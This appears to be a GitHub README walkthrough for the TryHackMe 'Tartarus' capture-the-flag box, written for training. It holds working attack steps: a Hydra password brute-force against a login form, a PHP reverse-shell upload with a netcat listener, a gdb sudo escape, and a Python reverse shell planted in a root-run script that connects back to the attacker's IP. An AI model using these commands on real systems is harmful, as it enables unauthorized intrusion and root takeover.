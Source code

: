 # TryHackMe_Tartarus
This is an beginner box based on simple enumeration of services and basic privilege escalation techniques.

The goal is to find user.txt and root.txt

# Gain access to the machine

Run nmap 

```
nmap -sC -sV -oN namp_results.txt
```

And you'll find three port open.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.24.148
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP protocol has anonymous connection enable., so connect whith FTP and un 

```
ls -la
```

Notice a wierd folder named '...', follow the path to find the hidden login page.
To get some credentials, check the robots.txt, i user a python script to get the login (will be uploaded later) but Hydra will do the job.

```
hydra -l enox -P credentials.txt {machine ip} http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!"
```

Once you logged in you can upload a file,
i suggest a php reverse shell,
use gobuster to find where is located the rev shell

```
gobuster dir -u {machine ip}/sUp3r-s3cr3t/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Once you find the reverse shell set up a listener

```
nc -lnvp {the port in the rev shell file}
```

and then make the shell stable

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

# User escalation

Ok now we are in, let's check if there's a SUID to escalate

```
sudo -l
```

You can see that gdb is runnable wothout password, use GTFOBins (great site!) to escalate.

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

Now you are thirtytwo.

# Root escalation

Look around in the /home directory and you'll see a cleanup.py file, this file can be run as root.
Let's edit th file with 

```
nano cleanup.py
```

and replace the content with 
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("{your ip}",{any port you want}));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

on your machine setup another listener with the port you choose and BOOM!, you are root.

# Find the flags

Run the two following commands

```
find / -name 'user.txt' 2>/dev/null
```
and
```
find / -name 'root.txt' 2>/dev/null
```
 and you're done!
 
 # CONGRATULATIONS!
